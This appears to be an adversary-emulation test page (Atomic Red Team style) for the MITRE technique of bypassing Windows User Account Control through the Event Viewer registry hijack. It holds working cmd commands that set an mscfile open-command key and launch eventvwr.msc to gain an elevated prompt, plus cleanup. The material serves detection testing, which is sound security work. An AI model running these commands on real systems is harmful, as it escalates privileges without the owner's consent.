 ```yaml
---
tags: [T1548_002, atomic_test]
filename: "[[T1548.002 - Abuse Elevation Control Mechanism- Bypass User Account Control]]"
---
```

# T1548.002 - Abuse Elevation Control Mechanism: Bypass User Account Control

## Atomic Test #1 - Bypass UAC using Event Viewer (cmd)
Bypasses User Account Control using Event Viewer and a relevant Windows Registry modification. More information here - https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/
Upon execution command prompt should be launched with administrative privileges.

**Supported Platforms:** Windows


**auto_generated_guid:** 5073adf8-9a50-4bd9-b298-a9bd2ead8af9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
reg.exe add hkcu\software\classes\mscfile\shell\open\command /ve /d "#{executable_binary}" /f
cmd.exe /c eventvwr.msc
```

#### Cleanup Commands:
```cmd
reg.exe delete hkcu\software\classes\mscfile /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Bypass UAC using Event Viewer (PowerShell)
PowerShell code to bypass User Account Control using Event Viewer and a relevant Windows Registry modification. More information here - https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/
Upon execution command prompt should be launched with administrative privalages
